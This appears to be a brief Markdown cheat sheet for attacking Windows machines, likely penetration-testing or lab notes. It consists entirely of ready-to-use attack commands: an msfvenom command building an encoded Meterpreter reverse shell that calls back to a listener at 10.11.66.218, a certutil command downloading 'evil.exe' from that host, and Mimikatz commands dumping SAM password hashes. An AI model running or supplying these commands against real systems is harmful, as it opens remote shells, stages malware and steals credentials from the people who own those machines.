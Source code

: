 # Windows Cheat Sheet

- [Windows Cheat Sheet](#windows-cheat-sheet)
  - [Generate a revshell](#generate-a-revshell)
  - [Upload a file](#upload-a-file)
  - [MIMIKATZ](#mimikatz)
    - [Commands](#commands)

## Generate a revshell
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.66.218 LPORT=1234 -f exe -o exp.exe
```

## Upload a file
```bash
certutil.exe -urlcache -split -f http://10.11.66.218:9999/evil.exe C:\\Temp\\evil.exe
```

## MIMIKATZ
Upload `mimikatz`

### Commands
```
privilege::debug
lsadump::sam
```